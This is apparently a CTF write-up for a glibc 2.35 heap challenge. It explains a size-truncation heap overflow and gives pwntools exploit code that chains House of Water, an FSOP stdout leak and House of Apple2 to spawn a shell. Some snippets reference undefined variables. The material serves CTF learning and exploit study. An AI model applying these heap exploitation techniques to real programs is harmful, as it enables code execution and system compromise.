




# Blind Record Entry

### Preliminary Inspection



The binary is compiled with full protections, with glibc 2.35 which has safe linking for tcache and fastbin addresses by encrypting it. malloc hooks are also removed. 

Executing the code, we are given the ability to malloc any size, free a chunk, and an arbitrary write anywhere. There is no read function however so we need to find a way to leak a libc address using FSOP.

Analyzing it in cutter, there exists a secret function which outputs 4 bits at the 12th position of the address of exit and the heap



This allows us to overwrite the bottom two bytes of any encrypted address without needing to perform a 1/16 bruteforce.



Reversing the functions for pwntools we get

```python

def add(size):
   global current_idx
   p.sendlineafter(b"> ", b"1")
   p.sendlineafter(b"entry: ", str(size).encode())
   current_idx += 1
   return current_idx

def edit(idx, data, pos=0):
   p.sendlineafter(b"> ", b"2")
   p.sendlineafter(b"entry: ", str(idx).encode())
   p.sendlineafter(b"data", str(pos).encode())
   p.sendafter(b"data: ", data)

def delete(idx):
   global current_idx
   p.sendlineafter(b"> ", b"3")
   p.sendlineafter(b"entry: ", str(idx).encode())

   if current_idx==idx:
       current_idx -= 1

def get_leak():
   p.sendlineafter(b"> ", b"5")
   p.recvuntil(b"exit(): ")
   try:
       exit_leak = int(p.recvline().strip(), 16)
   except:
       exit_leak = 0
    
   p.recvuntil(b"heap: ")
   try:
       heap_leak = int(p.recvline().strip(), 16)
   except:
       heap_leak = 0
   return exit_leak, heap_leak
```

There exists a vulnerability in the memory initialization function, which only considers the last 4 bits of the size, due to short casting. However the size stored in the sizes array is untruncated. This means we can get a massive heap overflow by requesting a size 0x10018 which will allocate a size 0x18, but internally save the size as 10018, allowing a 0x10000 buffer overflow.

### Exploitation

A large heap overflow is enough for us to perform a house of water exploit, allowing us to control the tcache_perthread_structure which is internally defined as

```c
typedef struct tcache_perthread_struct
{
  uint16_t counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

It stores, the number of chunks stored in each tcache bin, as well as the pointer to the first element in each tcache bin

House of water works by creating a fake chunk inside the tcache_perthread_structure and linking it to the unsorted bin. This can be accomplished in memory at the border between counts, and entries, by allocating the two smallest(0x18, 0x28), and two largest sizes(0x3d8, 0x3e8) . performing these allocations creates a data that looks similar to the metadata of a chunk. the last two entries in the counts array will be set to 1, which allocates a chunk of size 0x10001 , and the beginning of the entries contains pointers to two chunks, similar to the fd and bk of a chunk.

To unlink this to the unsorted bin we need to:

- Create a start middle and end chunk
- Modify the fd and bk of the fake tcache chunk to point to start and end (to bypass linking protections)
- Modify the fd of start and bk of end point to the fake chunk

We can link start middle and end to the unlinked bin by first filling up the tcache for the size 0x90, and creating the middle chunk.  To manipulate the fake chunk to contain the start and end chunk we need to link them to the tcache, and the unsorted bin at the same time. Free chunks for tcache and unsorted bin differ in the way they store the fd pointer. tcache expects the next pointers point to the start of the data section of the chunk, and malloc chunks point to the metadata of the chunk. Therefore we create two more duplicate versions of start and end, shifted by 16 bytes to account for this. We can accomplish this with our heap overflow. to modify memory after freeing. 

```python

for _ in range(7):
   add(0x90 - 8)  

middle = add(0x90 - 8)
#Large buffer to craft the exploit
largebuf_sz = 0x20 + 0x30 + 0x500 + (0x90-8)*2
largebuf = add(largebuf_sz)

#Guard chunk to avoid consolidation
guard = add(0x18)

delete(largebuf)

#Remaindered from largebuf (malloc thinks it's a 0x20 byte chunk)
#This gives us arbitrary write
guard_R = add(0x10018)  

corruptme = add(0x4c8)
start_shifted = add(0x90-8)  
midguard = add(0x28)   
end_shifted = add(0x90-8)    
leftovers = add(0x28)

#Modify corruptme's size
edit(guard_R, p64(0x651), pos=0x18)  
delete(corruptme)

#Reallocate corruptme but shifted by 0x10
offset_chunk = add(0x4c8 + 0x10)  
#Same chunks will be allocated by remaindering from corrupt me in the former positions shifted by 0x10
start_chunk = add(0x90-8)  
midguard2 = add(0x28)
end = add(0x90-8)  
leftovers_2 = add(0x18)  

#Fake metadata for prev_size
target_dist = (0x10000+0x80) - 0xda0 - 0x18
add(target_dist)

fake_data = add(0x18)
edit(fake_data, p64(0x10000) + p64(0x20))

#Write in size field in the fake chunk
size_lsb = add(0x3d8)
size_msb = add(0x3e8)
delete(size_lsb)
delete(size_msb)

#Edit sizes of start and end, to put it in the lowest sized tcache bins
edit(guard_R, p64(0x31), pos=0x4e8)  
delete(start_shifted)  
edit(guard_R, p64(0x91), pos=0x4f8)

edit(guard_R, p64(0x21), pos=0x5a8)
delete(end_shifted)    
edit(guard_R, p64(0x91), pos=0x5b8)

```

Performing this will link our start and end to the tcache, We can then also free the unshifted version to link  the same chunks to the unsorted bin. Then we can edit the fd and bk of start and end, to bypass safe linking mechanisms. (chunk→fd→bk == chunk & chunk→bk→fd == chunk). We can do this by overwriting the bottom two bytes, using the leak we received, completing the house of water exploit

```python
libc_leak, heap_leak = get_leak()

partial_ptr = (heap_leak << 12) + 0x80
edit(guard_R, p16(partial_ptr), pos=0x500)
edit(guard_R, p16(partial_ptr), pos=0x5c8)
```

Now, that the chunks are properly linked in, We can call malloc which will return the tchache_perthread_struct itself, giving us control over it. And since it is the last chunk in the unsorted bin, it will also contain libc address of the bin.

Now we need to leak the libc address. We can perform that using FSOP by using the libc address present in the tcache entry, by overwriting the bottom two bytes with the offset to the _IO_2_1_STDOUT_ structure, which will give us control over the first 40 bytes of it since, the address recides in that size in the tcache.

```python
exit_lsb = (libc_leak << 12) + (libc.sym['exit'] & 0xfff)
stdout_offset = libc.sym['_IO_2_1_stdout_'] - libc.sym['exit']
stdout_lsb = (exit_lsb + stdout_offset) & 0xffff
info(f"{stdout_lsb=:#x}")

edit(win,p16(stdout_lsb),8)
stdout = add(0x28)
```

Now with access to the small portion of the stdout file descripter we get access to the first 40 bytess in the structure.

```python
0x00	int _flags
0x08	char *	_IO_read_ptr	
0x10	char *	_IO_read_end
0x18	char * _IO_read_base		
0x20	char * _IO_write_base	
```

The variables of interest are _flags and _IO_write_base

Since the program is unbuffered, all these variables will be initialized to the same value



After modifying the flags, we can modify _IO_write_base, to flush stdout from a IO write base to IO write ptr. Since the lowest byte only has a 3 byte difference, we will use the second last byte, using the stdout leak, to flush out more data, and retrieve a libc address.

```python
#Set flags+filler data+write last two bytes of _IO_write_base
edit(stdout, p64(0xfbad3887)+p64(0)*3+p16(stdout_lsb+8), 0)
leak_data = p.recv(4096, timeout=1)
clean_leak = leak_data.lstrip(b'\x00')
leaked_bytes = clean_leak[0:8]
stdout_leak = u64(leaked_bytes.ljust(8, b'\x00'))
libc.address = stdout_leak - libc.symbols['_IO_2_1_stdout_'] -8
p.sendline()

stdout_addr = libc.sym['_IO_2_1_stdout_']
system_addr = libc.sym['system']
wfile_jumps = libc.sym['_IO_wfile_jumps']

```

Finally we can use house of apple2 to craft the final payload, to modify the file type to wfile, and set the vtables to spawn a shell

```python
payload = flat({
    0x0:  b"  sh\x00\x00\x00\x00",     # _flags: "  sh"
    0x20: p64(0),                      # _IO_write_base
    0x28: p64(1),                      # _IO_write_ptr
    0x68: p64(system_addr),            # _chain (holds system ptr)
    0x88: p64(stdout_addr - 0x10),     # _lock
    0x98: p64(stdout_addr),            # _codecvt (fake wide_vtable ptr)
    0xa0: p64(stdout_addr - 0x48),     # _wide_data
    0xc0: p64(0),                      # _mode
    0xd8: p64(wfile_jumps)             # vtable
}, filler=b'\x00', length=0xe0)

#Gain full control of stdout
edit(win,p64(libc.sym['_IO_2_1_stdout_']),8*60)
full_stdout = add(0x3e0-8)
edit(full_stdout,payload)
```
